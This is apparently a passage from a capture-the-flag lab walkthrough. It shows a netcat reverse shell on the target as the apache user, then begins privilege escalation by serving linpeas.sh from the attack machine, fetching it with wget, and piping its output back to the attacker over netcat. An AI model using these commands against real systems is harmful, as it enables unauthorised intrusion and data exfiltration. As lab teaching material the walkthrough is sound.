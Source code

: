 ```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.154.219 52536 received!
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
```

## Privilege escalation

You are in, but you are stuck with the **apache** account and you can't do much with that.  
So, it's time to escalate those privileges.  
On your attack machine, start a http server to serve the _linpeas.sh_ script to the target.  
**LinPEAS** is a script that scans the system looking for possible privilege escalation vectors.

```bash
cd /opt/PEAS/linPEAS/
root@ip-10-10-153-35:/opt/PEAS/linPEAS# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Download the script on the target machine.

```bash
wget http://10.10.153.35:8000/linpeas.sh
--2024-10-25 11:04:07--  http://10.10.153.35:8000/linpeas.sh
Connecting to 10.10.153.35:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 233380 (228K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 21%  799K 0s
    50K .......... .......... .......... .......... .......... 43%  224M 0s
   100K .......... .......... .......... .......... .......... 65%  268M 0s
   150K .......... .......... .......... .......... .......... 87%  240M 0s
   200K .......... .......... .......                         100%  302M=0.06s

2024-10-25 11:04:07 (3.52 MB/s) - 'linpeas.sh' saved [233380/233380]
```

The shell you obtained on the target machine is functional but somewhat limited. Run the script on the target but send its output directly on your attack machine: this way it will be easier to read.  
You can do so using netcat, first on your attack machine listen for an incoming connection and redirect incoming traffic to a text file:

```bash
nc -l -p 12345 > linpeas_output.txt
```

On the target, run the script and pipe the output to the netcat command:

```bash
chmod +x linpeas.sh
./linpeas.sh | nc 10.10.153.35 12345
```

